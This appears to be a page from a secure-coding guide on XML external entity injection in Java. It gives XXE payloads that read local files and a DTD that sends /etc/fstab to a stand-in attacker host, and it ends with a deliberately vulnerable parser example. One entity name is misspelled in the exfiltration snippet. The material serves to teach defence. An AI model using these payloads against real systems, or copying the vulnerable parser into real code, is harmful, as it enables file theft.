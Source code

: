 1\. Use the external entity reference function to read arbitrary files:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
    <!ENTITY file SYSTEM "file:///c:/xxx/xxx.ini"> ]>
<updateProfile>
    <firstname>Joe</firstname>
    <lastname>&file;</lastname>
    ...
</updateProfile>
```

2\. Use parameter entities and **\<CDATA\[]>** to avoid XML parsing syntax errors and the parsing of malicious entities.

XML file: Construct the parameter entities **% start**, **% goodies**, **% end**, and **% dtd** to define a malicious **combine.dtd**.

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % goodies SYSTEM "file:///etc/fstab">
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://evil.example.com/combine.dtd">
    %dtd;
    ]>
<roottag>&all;</roottag>
```

Define the **\&all** entity in the malicious DTD **combine.dtd**.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%goodies;%end;">
```

An ill-intentioned user can even construct a malicious **combine.dtd** to send the result to the destination address and finally obtain the **file:///etc/fstab** file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % send "<!ENTITY all SYSTEM 'http://mywebsite.com/?%gooddies;'>">
%send;
```

**\[Noncompliant Code Example]**

In this example, an external XML file is parsed. The parsing of DTDs or external entities is not disabled.

```java
private void parseXmlFile(String filePath) {
    try {
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        DocumentBuilder db = dbf.newDocumentBuilder();
        Document doc = db.parse(new File(filePath));
        ... //Parse the XML file
    } catch (ParserConfigurationException ex) {
        //Handle the exception
    }
    ...
}
```
